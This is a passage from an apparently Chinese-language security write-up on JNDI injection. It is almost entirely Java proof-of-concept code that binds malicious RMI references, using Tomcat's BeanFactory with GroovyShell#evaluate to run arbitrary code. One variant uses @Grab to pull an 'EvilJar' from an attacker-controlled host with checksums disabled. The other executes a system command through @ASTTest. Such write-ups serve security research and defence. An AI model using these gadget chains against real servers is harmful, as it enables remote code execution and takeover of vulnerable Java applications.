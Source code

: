 ```java
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
    }
}
```

###### 使用`groovy.lang.GroovyShell#evaluate` + `@Grab`

同样满足条件

![image-20220713221505360](README/image-20220713221505360.png)

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIGroovyShell {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        ref.add(new StringRefAddr("x", "@GrabConfig(disableChecksums=true)\n" +
                "    @GrabResolver(name=\"Poc\", root=\"http://127.0.0.1:8888/\")\n" +
                "    @Grab(group=\"Poc\", module=\"EvilJar\", version=\"0\")\n" +
                "    import java.lang.String"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
    }
}
```

###### 使用`groovy.lang.GroovyShell#evaluate` + `@ASTTest`

```java
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        ref.add(new StringRefAddr("x", "    @groovy.transform.ASTTest(value={\n" +
                "        assert Runtime.getRuntime().exec(\"calc\")\n" +
                "    })\n" +
                "    def x"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
```
